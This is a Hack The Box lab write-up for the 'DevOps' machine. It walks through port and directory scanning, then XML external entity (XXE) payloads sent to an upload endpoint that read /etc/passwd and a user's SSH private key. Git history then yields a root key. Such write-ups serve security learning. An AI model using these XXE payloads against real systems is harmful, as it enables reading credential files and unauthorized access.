








# Hack The Box: DevOps machine write-up

This machine was quite interesting and not so difficult, as it was based on an XML external entity attack which lead to user and then just a basic .git inspection, which is similar to some CTF challenges I had previously done. Its ip is 10.10.10.91.

### Enumeration

As always, first of all I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
nmap -sC -sV -oA nmap/initial 10.10.10.91
```

And the result was:

```sh
# Nmap 7.01 scan initiated Wed Sep  5 23:42:28 2018 as: nmap -sV -sC -oA nmap/initial 10.10.10.91
Nmap scan report for 10.10.10.91
Host is up (0.89s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95 (RSA)
|_  256 b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31 (ECDSA)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  5 23:42:40 2018 -- 1 IP address (1 host up) scanned in 12.14 seconds
```

So we find that there is a web server listening on port 5000, which is not the default port 80. Upon visiting the webpage, we get the following:

*Initial message*



Nothing to check, so I decide to run background recognition with dirb:

```sh
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep  6 00:12:15 2018
URL_BASE: http://10.10.10.91:5000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.91:5000/ ----

+ http://10.10.10.91:5000/feed (CODE:200|SIZE:546263)                          
+ http://10.10.10.91:5000/upload (CODE:200|SIZE:347)                           

-----------------
END_TIME: Thu Sep  6 00:22:05 2018
DOWNLOADED: 4612 - FOUND: 2
```

Something interesting!

*Upload page*



Looks like there is a test API to upload XML files... Definitely suspicious, we're on the right track. The file needs to have three elements: Author, Subject and Content, so let's craft a new XML file to test the functionality.

At first I uploaded this file:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<file>
	<Author>John, Doe</Author>
	<Subject>Hello</Subject>
	<Content>Computers</Content>
</file>
```

Which resulted in the following output:

*Output page*



### Exploit

This reminded me of XXE, so I modified the file a bit to try to access the ``/etc/passwd`` file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<file>
	<Author>John, Doe</Author>
	<Subject>&xxe;</Subject>
	<Content>Computers</Content>
</file>
```

If this worked, the resulting page would list the contents of the file. Let's see the output:

*Output page (second test)*



And indeed it works!

From there we can extract the following path: ``/home/roosa``, which now we're going to use to get the RSA private key used in the SSH service we saw before. The new file will thus be:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>
<file>
	<Author>John, Doe</Author>
	<Subject>&xxe;</Subject>
	<Content>Computers</Content>
</file>
```

And we get roosa's private [key](roosa.key). Then, we just log in through ssh with the following command: ``ssh -i roosa.key roosa@10.10.10.91`` (we must remember to change file permissions to 600, otherwise this won't work).

And we're in an can read the hash in ``user.txt``:

*Getting user hash*



### Root

Once logged in, we notice some interesting directories: ``deploy`` and ``work``. I decide to have a look at them. It turned out ``deploy`` was just the webpage we saw earlier, but then I found something in ``work``:

```console
roosa@gitter:~$ ls -al work
total 12
drwxrwxr-x  3 roosa roosa 4096 Mar 21 07:17 .
drwxr-xr-x 22 roosa roosa 4096 May 29 10:32 ..
drwxrwx---  5 roosa roosa 4096 Mar 21 05:29 blogfeed
roosa@gitter:~$ ls -al work/blogfeed
total 28
drwxrwx--- 5 roosa roosa 4096 Mar 21 05:29 .
drwxrwxr-x 3 roosa roosa 4096 Mar 21 07:17 ..
drwxrwx--- 8 roosa roosa 4096 Mar 26 06:13 .git
-rw-rw---- 1 roosa roosa  104 Mar 19 09:24 README.md
drwxrwx--- 3 roosa roosa 4096 Mar 19 09:31 resources
-rwxrw-r-- 1 roosa roosa  180 Mar 21 05:29 run-gunicorn.sh
drwxrwx--- 2 roosa roosa 4096 Mar 26 06:43 src
```

There is a git repo! That means we can check previous stages of the project.

*git log output*



I decide to go back to the second commit because it says that it contains the `key for feed integration from tnerprise backend`, which looks promising.

As we're in a public environment with lots of people I won't do ``git checkout {commit}``, which would restore all files to that point in history for everyone. Instead, I used ``git diff {commit}`` to get the changes made between that commit and the one I'm on.

*git diff output*



Voilà! We just discovered that our ``roosa.key`` (highlighted in green) replaced a previous key (in red). Let's recover it!

I didn't know where to use it, but seeing it was an SSH key I decided to use it again, this time with root user:

*Using the key to log in as root*



And that's all! I hope you enjoyed and learned something!

---

*Diego Bernal Adelantado*
